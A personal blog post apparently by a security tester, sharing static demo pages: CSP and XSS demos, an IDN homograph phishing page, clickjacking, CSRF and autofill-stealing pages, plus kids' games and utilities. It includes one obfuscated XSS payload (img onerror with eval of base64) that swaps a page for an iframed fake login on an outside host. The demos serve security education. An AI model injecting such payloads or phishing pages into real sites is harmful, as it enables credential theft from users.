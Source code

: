 ```yaml
---
title: "Useful static apps! (Updated)"
date: 2020-04-21T20:15:45+10:00
draft: false
---
```


Sometimes i make static pages for single purpose and they can be quite useful so i will just leave them here

### For security

Here  is a simple page to show case some useful Content Security Policy (CSP) tricks for protecting apps from XSS [https://cspdemo.surge.sh/](https://cspdemo.surge.sh/). I find sharing this page and some explanation get buy in from developers a lot quicker.

Here is my example to show why it is a good idea to host user's provided content, especially ones where user has full control over, SSRF/proxied-pages in a completely separated domain. Google is no exception: [http://webcache.googleusercontent.com/search?q=cache:https://cornmbank.com](http://webcache.googleusercontent.com/search?q=cache:https://cornmbank.com). This way cross origin policy will protect your web app from being attacked with XSS style attack.

Here is a fun XSS trick i had... This is useful when you notice your variable being injected/server-side render straight into an inline script code block [https://htmlweird.surge.sh/](https://htmlweird.surge.sh/). This trick mess with how browser first parse HTML document to figure out different HTML tags and not having any context about Javascript.

A fun fake login page: [https://cornmbank.com/fakelogin.html](https://cornmbank.com/fakelogin.html) you can either iframe it 
This is example to rewrite the html body and change it to our fakelogin page:
```
<img src=x onerror=eval(atob('ZG9jdW1lbnQuYm9keS5pbm5lckhUTUw9IjxpZnJhbWUgc3JjPVwiaHR0cHM6Ly9lYmZlLnB3L3NoYXJlZC9mYWtlbG9naW4uaHRtbFwiIHN0eWxlPVwid2lkdGg6MTAwJTsgaGVpZ2h0OjEwMHZoXCIgLz4i'))>
```

QRCode generator using js library https://ebfe.pw/shared/qr.html

My phishing page to show case IDN homograph attack: [https://cornmbank.com/](https://cornmbank.com/), it used to get internal ip ranges using webrtc but that seems to be broken nowand it uses a nice trick at the bottom to determine what social network you are logging into.

Open blank-Changing parent tab (click it and see) <-- does what it says:
<a href="https://ebfe.pw/shared/changeparent.html" target="_blank">https://ebfe.pw/shared/changeparent.html</a>


CSRF test page generates a csrf form submit page base off your "copy as curl command" from burp. Although under engagementtool you do have a generate cfrf PoC page anyway. :p Oh well, whateva [https://ebfe.pw/shared/csrfpage.html](https://ebfe.pw/shared/csrfpage.html)


Pikachu is a static page that would try to steal your autofill info. put ?debug=true at the end of the url to see how it work or ?cc=true and see if it can steal creditcard autofil stuffs
[http://ebfe.pw/shared/pikachu.html](http://ebfe.pw/shared/pikachu.html). Unfortunately chrome has made it more obvious by showing the drop down selection for autofill values.

This page used to clickjack your browser and make your facebook like a page about picklecat :)
[http://www.cornmbank.com/picklecat.html](http://www.cornmbank.com/picklecat.html). Unfortunately my picklecat page was removed and with the Chrome fix for SameSite, this may not be a problem sooner or later. That said, you could potentially modify the source to make an useful demo.


### Games for kids and adults =))

A cardgenerator app i made to create printable A4 pages of card game for security training (for the best experience, use cardstock paper): [https://cardgenerator.surge.sh/](https://cardgenerator.surge.sh/)

Same concept as above, i made a flashcard generator for my wife to use to teach childcare kids: [http://new-motion.surge.sh/](http://new-motion.surge.sh/)


StarRealm deck building game simple point counter [https://ebfe.pw/shared/star.html](https://ebfe.pw/shared/star.html)


Arm wrestling bible (Made after I lost at arm wrestling to a much bigger dude) [https://ebfe.pw/shared/wrestling.html](https://ebfe.pw/shared/wrestling.html)

A hangman game for kindies kid... with image hint after 6 wrong pick [https://wordplay.surge.sh](https://wordplay.surge.sh) - Although perhaps it is not suitable for children since it is..."hang man" ...

A text-to-speech scenario game for kids: [https://tinyadventure.surge.sh](https://tinyadventure.surge.sh). The idea is to act it out and follow the narative for each scenario.

### Randoms


Code Highlight using JS that you can use to copy to word document: [https://ebfe.pw/shared/highlight.html](https://ebfe.pw/shared/highlight.html)

QRCode generator using js library [https://ebfe.pw/shared/qr.html](https://ebfe.pw/shared/qr.html)

A cidr calculator page that include calculation for terraform cidrsubnet() function. [https://ebfe.pw/shared/highlight.html](https://ebfe.pw/shared/highlight.html)
